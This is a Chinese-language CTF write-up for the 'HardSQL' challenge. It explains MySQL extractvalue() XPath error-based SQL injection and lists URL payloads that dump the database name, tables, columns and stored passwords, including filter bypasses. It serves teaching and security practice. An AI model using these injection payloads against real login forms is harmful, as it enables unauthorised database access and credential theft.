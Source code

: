 ## [极客大挑战 2019]HardSQL

`xpath报错注入`

`函数注入`

`extractvalue`

**extractvalue()**
extractvalue() :对XML文档进行查询的函数

语法：`extractvalue(目标xml文档，xml路径)`

第一个参数 :  第一个参数可以传入目标`xml文档`

第二个参数： `xml`中的位置是可操作的地方，`xml`文档中查找字符位置是用 `/xxx/xxx/xxx/…`这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

正常查询 第二个参数的位置格式 为`/xxx/xx/xx/xx` ,即使查询不到也不会报错

tip: 还有要注意的地方是，它能够查询的字符串长度最大是32个字符，如果超过32位，我们就需要用函数来查询，比如`right()`,`left()`，`substr()`来截取字符串

再举个栗子：

`SELECT ExtractValue('<a><b><b/></a>', '/a/b');` 这个语句就是寻找前一段`xml文档`内容中的`a`节点下的`b`节点，这里如果`Xpath`格式语法书写错误的话，就会报错。这里就是利用这个特性来获得我们想要知道的内容。

利用`concat`函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出。

知道这些知识之后，我们开始注入吧

用`^`来连接函数，形成异或
这边用的是`extractvalue()`

```
爆数据库
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(database())),0x7e))%23
然后，我们再payload爆表名，但是这里把等于号给我们过滤了，不过我们还有骚操作like用法
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),0x7e))%23
爆字段
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e))%23
查数据
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e))%23
字符串较长 使用left() right() substr()
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(right(password,30)))from(H4rDsq1)),0x7e))%23
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(left(password,30)))from(H4rDsq1)),0x7e))%23

or注入也可以
1'or(extractvalue(1,concat(0x7e,(select(database())),0x7e)))#
```

[参考](https://www.cnblogs.com/junlebao/p/13836583.html)
